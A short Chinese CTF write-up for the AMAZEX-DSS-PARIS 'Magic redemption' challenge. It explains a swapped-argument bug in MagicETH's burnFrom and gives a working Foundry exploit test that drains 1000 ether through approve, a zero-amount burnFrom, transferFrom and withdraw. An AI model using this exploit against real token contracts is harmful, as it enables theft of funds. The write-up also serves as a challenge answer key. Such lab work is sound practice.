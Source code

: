 ## AMAZEX-DSS-PARIS Operation magic redemption 
这明明是个很简单的题我却看了很久都没有发现问题，最后看了下攻击原型https://foresightnews.pro/article/detail/32350
，才发现问题所在

具体是`burnFrom`里的`_approve(account, msg.sender, currentAllowance - amount);`前两个参数放反了。于是我们可以先允许exploiter用攻击合约的ether，调用这个函数使amount=0，然后现在这个approve允许攻击合约用exploiter的ether了

### 解题
``` solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import {MagicETH} from "../src/1_MagicETH/MagicETH.sol";

/*////////////////////////////////////////////////////////////
//          DEFINE ANY NECESSARY CONTRACTS HERE             //
//    If you need a contract for your hack, define it below //
////////////////////////////////////////////////////////////*/




/*////////////////////////////////////////////////////////////
//                     TEST CONTRACT                        //
////////////////////////////////////////////////////////////*/
contract Challenge1Test is Test {
    MagicETH public mETH;

    address public exploiter = makeAddr("exploiter");
    address public whitehat = makeAddr("whitehat");

    function setUp() public {
        mETH = new MagicETH();

        mETH.deposit{value: 1000 ether}();
        // exploiter is in control of 1000 tokens
        mETH.transfer(exploiter, 1000 ether);
    }

    function testExploit() public {
        vm.startPrank(whitehat, whitehat);
        /*////////////////////////////////////////////////////
        //               Add your hack below!               //
        //                                                  //
        // terminal command to run the specific test:       //
        // forge test --match-contract Challenge1Test -vvvv //
        ////////////////////////////////////////////////////*/
        
        mETH.approve(exploiter,type(uint256).max);
        mETH.burnFrom(exploiter, 0 ether);
        mETH.transferFrom(exploiter, whitehat, 1000 ether);
        //注意将weth转化为eth
        mETH.withdraw(1000 ether);

        


        //==================================================//
        vm.stopPrank();

        assertEq(whitehat.balance, 1000 ether, "whitehat should have 1000 ether");
    }
}

```

